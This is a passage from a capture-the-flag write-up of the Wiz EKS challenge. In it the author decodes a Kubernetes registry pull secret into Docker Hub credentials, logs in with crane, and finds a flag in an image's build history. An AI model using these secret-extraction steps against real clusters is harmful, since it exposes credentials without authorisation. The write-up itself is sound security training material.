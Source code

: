 So that is the secret we need, lets view it:

```bash
root@wiz-eks-challenge:~# kubectl get secret registry-pull-secrets-780bab1d -o json |jq '.data.".dockerconfigjson"' -r|base64 -d|jq
{
  "auths": {
    "index.docker.io/v1/": {
      "auth": "ZWtzY2x1c3RlcmdhbWVzOmRj<*REDACTED*>200bHI0NWlZUWo4RnVDbw=="
    }
  }
}
```

Looks like we've got some more base64 decoding for the actual auth credentials:

```bash
root@wiz-eks-challenge:~# echo "ZWtzY2x1c3RdhbWVzOmRj<*REDACTED*>200bHI0NWlZ4RnVDbw==" | base64 -d
eksclustergames:dckr<*REDACTED*>
```

So now we can login with `crane auth`:

```bash
root@wiz-eks-challenge:~# crane auth login -u eksclustergames -p dckr<*REDACTED*> docker.io
2023/11/03 02:35:49 logged in via /home/user/.docker/config.json
```

So if we try to view the image again it should work!

```bash
root@wiz-eks-challenge:~# crane config eksclustergames/base_ext_image|jq
{
  "architecture": "amd64",
  "config": {
    "Env": [
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
    ],
    "Cmd": [
      "/bin/sleep",
      "3133337"
    ],
    "ArgsEscaped": true,
    "OnBuild": null
  },
  "created": "2023-11-01T13:32:18.920734382Z",
  "history": [
    {
      "created": "2023-07-18T23:19:33.538571854Z",
      "created_by": "/bin/sh -c #(nop) ADD file:7e9002edaafd4e4579b65c8f0aaabde1aeb7fd3f8d95579f7fd3443cef785fd1 in / "
    },
    {
      "created": "2023-07-18T23:19:33.655005962Z",
      "created_by": "/bin/sh -c #(nop)  CMD [\"sh\"]",
      "empty_layer": true
    },
    {
      "created": "2023-11-01T13:32:18.920734382Z",
      "created_by": "RUN sh -c echo 'wiz_eks_challenge{nothing_can_be_said_to_*REDACTED*}' > /flag.txt # buildkit",
      "comment": "buildkit.dockerfile.v0"
    },
    {
      "created": "2023-11-01T13:32:18.920734382Z",
      "created_by": "CMD [\"/bin/sleep\" \"3133337\"]",
      "comment": "buildkit.dockerfile.v0",
      "empty_layer": true
```